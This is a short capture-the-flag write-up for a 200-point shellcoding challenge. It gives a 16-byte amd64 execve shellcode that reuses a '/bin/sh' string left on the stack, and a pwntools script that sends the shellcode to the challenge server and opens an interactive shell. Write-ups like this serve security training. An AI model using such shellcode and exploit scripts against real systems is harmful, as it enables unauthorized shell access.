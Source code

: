 ### Free Your Mind (200 Points)

> Next up, hack the matrix again, but this time, insert your own code.
>
> [attachment](shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d)

This challenge provide the "/bin/sh" in stack top and limit the max input length is 16. so I write the shellcode like this:

```asm
push 0
pop rsi
push 0
pop rdx
push 0x3b
pop rax
lea rdi,[rsp+8]
syscall
```

#### exploit script

```python
from pwn import *
context.arch = 'amd64'

payload = asm("push 0; pop rsi; push 0; pop rdx; push 0x3b; pop rax; lea rdi,[rsp+8]; syscall")
print len(payload) # 16

#p = process('./shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d')
p = remote('chal.ctf.b01lers.com',1007)
p.recvuntil('walk through it.\n')

# gdb.attach(p)
p.sendline(payload)

p.interactive()
```

